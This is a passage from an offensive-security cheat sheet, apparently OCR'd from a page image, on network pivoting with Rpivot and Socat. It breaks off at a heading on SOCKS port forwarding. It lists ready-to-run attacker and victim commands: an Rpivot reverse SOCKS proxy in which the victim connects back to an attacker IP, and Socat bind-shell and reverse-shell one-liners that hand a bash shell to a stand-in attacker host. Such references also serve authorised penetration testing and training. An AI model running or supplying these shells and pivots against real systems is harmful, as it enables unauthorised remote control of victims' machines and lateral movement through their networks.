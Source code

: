 > Chisel GitHub
> 

---

### Rpivot

Reverse SOCKS proxy pivoting.

- **Attacker:**

```bash
bash
CopyEdit
python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080

```

- **Victim:**

```bash
bash
CopyEdit
python client.py --server-ip <attacker_ip> --server-port 9999

```

> Rpivot GitHub
> 

---

## **Socat**

Versatile data relay tool.

- **Bind Shell:**

```bash
bash
CopyEdit
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP:<victim_ip>:1337

```

- **Reverse Shell:**

```bash
bash
CopyEdit
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP:<attacker_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane

```

- **Port Forwarding via SOCKS:**
